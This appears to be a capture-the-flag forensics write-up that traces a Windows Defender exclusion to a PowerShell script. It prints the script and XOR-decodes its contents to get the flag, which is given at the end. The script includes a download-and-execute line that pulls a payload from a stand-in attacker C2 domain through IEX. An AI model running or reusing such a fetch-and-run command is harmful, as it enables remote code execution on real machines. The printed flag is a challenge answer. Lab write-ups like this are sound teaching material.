


### No Grep

Category: **Forensics**

"Use the VM from Hourglass to find the second flag on the system"

Back at it again, this was a pretty straight forward challenge, involving some script analysis and viewing Microsoft Defender Exclusions.

If we go to defender settings -> Virus & Threat Protection -> Exclusions. We will see a certain file getting excluded from windows defender to ignore. Very odd if you ask me.

The full path that we can see is *C:\Windows\Web\Wallpaper\Theme2\update.ps1"



Let's visit the path and inspect the script content.

```powershell
$String_Key = 'W0wMadeitthisfar'

$NewValue = '$(' + (([int[]][char[]]$String | ForEach-Object { "[char]$($_)" }) -join '+') + ')'

$chars = 34, 95, 17, 57, 2, 16, 3, 18, 68, 16, 12, 54, 4, 82, 24, 45, 35, 0, 40, 63, 20, 10, 58, 25, 3, 65, 0, 20

$keyAscii = $String_Key.ToCharArray() | ForEach-Object { [int][char]$_ }

$resultArray = $chars -bxor $keyAscii

IEX (Invoke-WebRequest -Uri 'https://somec2attackerdomain.com/chrome.exe' -UseBasicParsing).Content

```

We can see what this script is doing in plaintext, doesent to be very obfuscated right ? 

First thing to note here is the $String_Key variable as well as $chars.

Looking at $resultArray, we can also see that those chars are getting *xorred* with the key we saw earlier. 

Decrypt this by using cyberchef or write your own xor decryption script with python or try fixing up the powershell code to print the result.



**uoftctf{0dd_w4y_t0_run_pw5h}**
